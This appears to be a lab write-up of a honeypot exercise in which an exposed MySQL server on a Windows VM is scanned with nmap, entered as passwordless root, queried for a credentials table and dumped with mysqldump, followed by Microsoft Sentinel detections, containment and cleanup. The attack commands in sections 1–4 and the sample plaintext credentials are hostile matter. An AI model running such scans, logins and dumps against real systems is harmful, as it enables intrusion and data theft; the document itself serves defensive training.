



# Attack and Detection — Detailed Technical Evidence

## 1. Reconnaissance

Scan of the ports exposed by the honeypot VM (from Kali Linux, against the VM's public IP):

```bash
$ nmap -sV -O -p 3306,3389 74.241.132.174
```

```
PORT     STATE SERVICE       VERSION
3306/tcp open  mysql         MySQL 8.0.46
3389/tcp open  ms-wbt-server

Running (JUST GUESSING): Microsoft Windows 11|10 (90%)
OS CPE: cpe:/o:microsoft:windows_11
```

**Result**: identified MySQL 8.0.46 and the Windows 11 operating system with good confidence (90%), with no authentication needed to obtain this information.

## 2. Exploitation

Attempt to connect directly to MySQL as root, exploiting the vulnerable configuration (root user with no password, remotely accessible):

```bash
$ mysql -h 74.241.132.174 -u root --skip-password --skip-ssl
```

**Result**: immediate access, with no brute force needed. The mere fact that the database was exposed with a passwordless administrative account made the exploitation instantaneous — one of the most common and most easily preventable breach scenarios in the real world.

## 3. Data Discovery

```sql
SHOW DATABASES;
USE corpdb;
SHOW TABLES;
SELECT * FROM credentials;
SELECT * FROM payments;
```

Found the `credentials` table with 5 entries of plaintext credentials for fictitious internal services (admin panel, FTP, backup, email, VPN).

## 4. Exfiltration

```bash
$ mysqldump -h 74.241.132.174 -u root --skip-password --skip-ssl corpdb > corpdb_esfiltrato.sql
```

Output excerpt (fictitious data):
```sql
INSERT INTO `credentials` VALUES
(1,'Admin Portal','admin','Winter2026!','accesso pannello amministrazione interno'),
(2,'FTP Server','ftpuser','ftp_P@ss123','server file aziendale'),
...
```

**Result**: entire database (structure + data) exported locally to the attacker machine in a few seconds, with no database-level security control preventing it.

## 5. Detection — Automatically Generated Incidents

Both detection rules configured in Microsoft Sentinel fired correctly:

### Incident 1: Access to the credentials table on the MySQL honeypot
- **Severity**: High
- **Category**: Credential access
- **First activity detected**: 25 Oct 2026, 15:37:48
- **Last activity detected**: 26 Oct 2026, 13:28:44
- **Events recorded**: queries `SELECT * FROM credentials`, `SELECT service_name, username FROM credentials`, `SHOW INDEX FROM credentials`

### Incident 2: Exploratory queries on the honeypot database
- **Severity**: Medium
- **Category**: Discovery
- **Events recorded**: `SHOW TABLES FROM corpdb`

**Timeline observation**: the incidents show activity spread across two separate sessions (afternoon of 25 October and morning of 26 October) — a realistic pattern of an attacker returning to the compromised target several times to continue exploring, rather than a single isolated event.





Detail of the second incident ("Exploratory queries on the honeypot database"), with the automatic explanation generated by Microsoft Defender ("What happened") and the raw query detected (`SHOW TABLES FROM corpdb`):



## 6. Containment

Verification that closing the NSG rules actually isolated the VM:

```bash
$ nmap -Pn -p 3306,3389 74.241.132.174
```

```
PORT     STATE    SERVICE
3306/tcp filtered mysql
3389/tcp filtered ms-wbt-server
```

**Result**: no response from the previously exposed ports — isolation confirmed.

## 7. Eradication

Corrective actions applied to return the system to a secure state:
- Removed the weak local administrator account created for the test
- Disabled the Guest account
- Re-enabled the Windows firewall on all profiles
- Removed the passwordless `root@'%'` user from MySQL (`DROP USER`)
